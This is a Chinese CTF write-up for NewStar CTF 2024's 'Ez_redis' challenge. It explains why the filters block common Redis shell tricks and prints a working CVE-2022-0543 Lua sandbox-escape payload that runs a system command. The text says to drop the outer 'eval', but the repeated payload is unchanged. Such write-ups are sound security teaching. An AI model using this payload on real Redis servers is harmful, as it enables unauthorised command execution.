 ```yaml
---
titleTemplate: ':title | WriteUp - NewStar CTF 2024'
---
```


# Ez_redis

考了个 redis 命令执⾏以及其历史漏洞

![](/assets/images/wp/2024/week5/Ez_redis_1.png)

在这里其实给出了示例

结合题目不难发现就是个 redis 语法

如果你有信息收集意识的话还会发现

![](/assets/images/wp/2024/week5/Ez_redis_2.png)

关键点在：

![](/assets/images/wp/2024/week5/Ez_redis_3.png)

百度 redis 常⽤利⽤⽅法，发现如果过滤了set，php

那么我们很难通过写 webshell，写⼊计划任务，主从复制来 getshell

于是我们搜索⼀下 redis5 历史漏洞 

发现 CVE-2022-0543 值得⼀试: https://gitcode.com/gh_mirrors/vu/vulhub/blob/master/redis/CVE-2022-0543/README.zh-cn.md 

于是我们得到了⼀个 payload:

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

由于我们⽹站执⾏的是 redis 命令

于是去掉外⾯的 eval 即可

```
eval 'local io_l = package.loadlib("/usr/lib/x86_64-linux-gnu/liblua5.1.so.0", "luaopen_io"); local io = io_l(); local f = io.popen("id", "r"); local res = f:read("*a"); f:close(); return res' 0
```

![](/assets/images/wp/2024/week5/Ez_redis_4.png)